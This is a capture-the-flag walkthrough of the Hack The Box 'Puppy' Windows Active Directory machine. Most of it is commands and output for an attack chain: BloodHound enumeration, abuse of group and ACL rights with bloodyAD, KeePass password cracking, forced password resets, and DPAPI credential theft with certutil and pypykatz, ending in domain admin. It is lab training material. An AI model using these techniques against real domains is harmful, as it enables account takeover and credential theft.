









# Puppy

**Puppy** is a medium-rated Windows Active Directory machine on Hack The Box. The box provides a structured path through common AD enumeration and privilege escalation techniques, with a strong emphasis on abusing Windows DPAPI (Data Protection API) to recover protected credentials. This makes it especially useful for practicing real-world Active Directory attack chains.

## Prerequisites

| Tools Used          |
------------------
| `bloodhound-cli` (Docker) |
| `bloodhound-python` | 
| `nxc` (Netexec)     |
| `impacket`          |
| `bloodyAD`          |
| `pypykatz`          |

*Use the tools packaged for python 3.13.x or later.*

---------------

## Enumeration

We begin with a classic `Nmap` scan to get an idea of the services running on the machine.

```
sudo nmap -sVC --min-rate 1000 -T4 10.10.11.70 -p-
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-27 02:03:17Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58358/tcp open  msrpc         Microsoft Windows RPC
58368/tcp open  msrpc         Microsoft Windows RPC
58382/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-27T02:05:25
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 1d07h02m26s
```
These results give us essential information about the server. It is running a classic AD environment.

Before moving any further, it is important to fix our clock skew by syncing our time with the domain controller.
```
sudo ntpdate 10.10.11.70
````

And finally add the domain and domain controller to our `/etc/hosts`.
```
echo '10.10.11.70  puppy.htb dc.puppy.htb' | sudo tee -a /etc/hosts
```

-------

With basics set up, we can now enumerate users, their relations and the rights the users have. We already have the credentials of an account - `levi.james:KingofAkron2025!`.

### LEVI.JAMES

Using Netexec, we are able to connect to the AD through LDAP and we use this to pull a list of active domain users.

```
nxc ldap puppy.htb -u  levi.james -p 'KingofAkron2025!' --users
```
```
Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

With valid LDAP credentials confirmed, the next step is to enumerate accessible SMB shares, since these often store sensitive files in AD environments.

```
nxc smb puppy.htb -u  levi.james -p 'KingofAkron2025!' --shares
```
```
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share 
```
We see an interesting DEV share but it is inaccessible by the current user right now.

The next logical step is to run bloodhound. First, we need to ensure that `bloodhound-cli` has set up the containers and bloodhound is running.

To start the containers (you may need to specify the full path of bloodhound-cli),
```
sudo bloodhound-cli up
```
And collect the data
```
bloodhound-python -d puppy.htb -u levi.james -p 'KingofAkron2025!' -ns 10.10.11.70 -c All --zip
```

Then we go to http://127.0.0.1:8080 and upload the zip obtained through bloodhound-python.



*Note: We will be performing a similar process multiple times which hereon, will be referred to as collecting data from bloodhound.* 

Once the file is ingested, we go to the explore tab and search for levi.james, select it, right click on the node and set it as owned.



Then, we click on the Cypher tab and select queries to find interesting paths and results.



Here, we find that LEVI.JAMES is a member of HR group and has genericWrite right on DEVELOPERS group. We earlier had found a share for Puppy-Devs. So, we add LEVI.JAMES to DEVELOPERS using *bloodyAD* and try using `smbclient` to read the share.

To add LEVI.JAMES to DEVELOPERS
```
bloodyAD -d puppy.htb -u levi.james -p 'KingofAkron2025!' --dc-ip 10.10.11.70 add groupMember DEVELOPERS levi.james
```
And then we connect using `smbclient` and download the `recovery.kdbx` file.
```
smbclient //puppy.htb/DEV  -U levi.james --password='KingofAkron2025!'
```


### Decrypting
We recover a KeePass database (recovery.kdbx) from the DEV share. KeePass stores credentials in encrypted form, so we attempt to brute-force the master password using rockyou.txt.

We use [this](https://github.com/r3nt0n/keepass4brute) script to decrypt it.

```
sudo apt install keepassx # Dependency
chmod +x keepass4brute.sh
winter@ice:~/Desktop/puppy$ ./keepass4brute.sh recovery.kdbx /usr/share/seclists/rockyou.txt
```
We find the password to the file - `liverpool`.

Then, we dump all information from `recovery.kdbx`.
```
keepassxc-cli export recovery.kdbx > dump.xml
```

To convert this to csv,
```
xmlstarlet sel -t -m "//Entry" -v "String[Key='Password']/Value" -o "," dump.xml > dump.csv
```
And finally to extract just the usernames and passwords.
```
cat dump.csv | tr "," "\n" > passwords.lst
```

## Lateral Movement

Now, we have a passwords list and a usernames list. We try brute-forcing to connect to the AD using LDAP to obtain the right credentials using `nxc`.
```
nxc ldap puppy.htb -u users.lst -p passwords.lst
```
And we get a match.
```
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

### ANT.EDWARDS
Again, we collect the data using `bloodhound`.
```
bloodhound-python -d puppy.htb -u ant.edwards -p 'Antman2025!' -ns 10.10.11.70 -c All --zip
```
Add it to ingest on the bloodhound webapp at http://127.0.0.1:8080.

Apparently, ANT.EDWARDS is a member of SENIOR DEVS which has GenericAll on ADAM.SILVER.

GenericAll means that ANT.EDWARDS can modify ADAM.SILVER's password as well.
```
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --dc-ip 10.10.11.70 set password adam.silver cocoRocks@1
```

But then, while trying to access it via LDAP, we find that the account is disabled.
```
nxc ldap puppy.htb -u adam.silver -p cocoRocks@1
```
```
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB) (signing:None) (channel binding:No TLS cert)
LDAP        10.10.11.70     389    DC               [-] PUPPY.HTB\adam.silver:cocoRocks@1 STATUS_ACCOUNT_DISABLED
```
The account can be enabled by removing the `UAC ACCOUNTDISABLE` flag. We do this using bloodyAD.
```
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --dc-ip 10.10.11.70 remove uac adam.silver -f ACCOUNTDISABLE
```
This time nxc works and we even find that adam.silver can use WinRM.

### ADAM.SILVER
We use `evil-winrm` to connect as ADAM.
```
evil-winrm -i 10.10.11.70 -u adam.silver -p cocoRocks@1
```
**The user flag is found at Desktop of ADAM.SILVER.**
```
type C:/Users/adam.silver/Desktop/user.txt
```

-----

## Privilege Escalation
We find an interesting `Backups` directory in `C:\`. The directory contains a *site backup* which we can download through the `download` command of `evil-winrm` itself.


Additionally, we collect information through `bloodhound` again. Although, it does not reveal anything new.

On unzipping the backup, we find a file `nms-auth-config.xml.bak` which contains the password of **STEPH.COOPER**.


This is important because bloodhound showed earlier that STEPH.COOPER_ADM had a direct path to ADMINISTRATOR and was an administrator himself.


### STEPH.COOPER
We will again collect STEPH.COOPER's data using `bloodhound`.

Simultaneously, we also try to find what all can STEPH.COOPER connect to using `nxc` and we find that he can use WinRM.
```
nxc winrm -u dc.steph.cooper -p 'ChefSteph2025!' --dns-server 10.10.11.70
```
```
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB) 
WINRM       10.10.11.70     5985   DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! (Pwn3d!)
```

Now, it's time for `evil-winrm`.
```
evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'
```

Next, we look for credentials protected with Windows DPAPI (Data Protection API). The corresponding master key is stored in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107`.

Windows DPAPI (Data Protection API) is used to protect sensitive data such as stored credentials. By extracting the masterkey and credential blobs, and then decrypting them offline, we can recover cleartext credentials of domain users.



We use `ls -force` to reveal hidden system files, which were otherwise invisible. Hence, we cannot copy or download the master key normally. For this, we use `certutil` to base64 encode the key and save it to Desktop and later decode it.
```
certutil -encode 556a2412-1275-4ccf-b721-e6a0b4f90407 C:/Users/steph.cooper/Desktop/masterkey.b64
```

Similarly, we get the credentials stored in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials` as well 
```
certutil -encode C8D69EBE9A43E9DEBF6B5FBD48B521B9 C:/Users/steph.cooper/Desktop/creds.b64
```

Finally, we navigate back to the Desktop directory, decode them and download the decoded files.
```
cd C:/Users/steph.cooper/Desktop
certutil -decode masterkey.b64 master.bin
certutil -decode creds.b64 creds_blob
```
```
download master.bin
download creds_blob
```

### Credential Recovery
We use `pypykatz` to recover the credentials.
In the folder in which we downloaded the keys, we execute the following commands.

First, to generate the prekeys,
```
pypykatz dpapi prekey password 'S-1-5-21-1487982659-1829050783-2281216199-1107' 'ChefSteph2025!' | tee prekeys.txt
```
And then, to extract the master key (encrypted using user password by default)
```
pypykatz dpapi masterkey ./masterkey.bin prekeys.txt -o mk.json
```
And finally,
```
pypykatz dpapi credential mk.json creds_blob
```
Which gives us,
```
type : DOMAIN_PASSWORD (2)
last_written : 133859228697062409
target : Domain:target=PUPPY.HTB
username : steph.cooper_adm
unknown4 : b'F\x00i\x00v\x00e\x00t\x00h\x00C\x00h\x00i\x00p\x00O\x00n\x00I\x00t\x00s\x00W\x00a\x00y\x002\x000\x002\x005\x00!\x00'
```

This password is in UTF-16LE format. We need to convert it to UTF-8. For that we execute,
```
echo -ne 'F\x00i\x00v\x00e\x00t\x00h\x00C\x00h\x00i\x00p\x00O\x00n\x00I\x00t\x00s\x00W\x00a\x00y\x002\x000\x002\x005\x00!\x00' | iconv -f UTF-16LE -t UTF-8
```

This reveals the password - `FivethChipOnItsWay2025!`.

### STEPH.COOPER_ADM

We now try this password against STEPH.COOPER_ADM account and hope that it works.
```
nxc winrm puppy.htb -u STEPH.COOPER_ADM -p 'FivethChipOnItsWay2025!'
```
The **login succeeds**, confirming our escalation path.

Since STEPH.COOPER_ADM is a local admin and a part of the ADMINISTRATORS group, we can access all the directories on the system (including C:/Users/Administrator).

To obtain the root flag,
```
evil-winrm -i puppy.htb -u STEPH.COOPER_ADM -p 'FivethChipOnItsWay2025!' 
```
And then,
```
type C:/Users/Administrator/Desktop/root.txt
```

This concludes the Puppy Machine.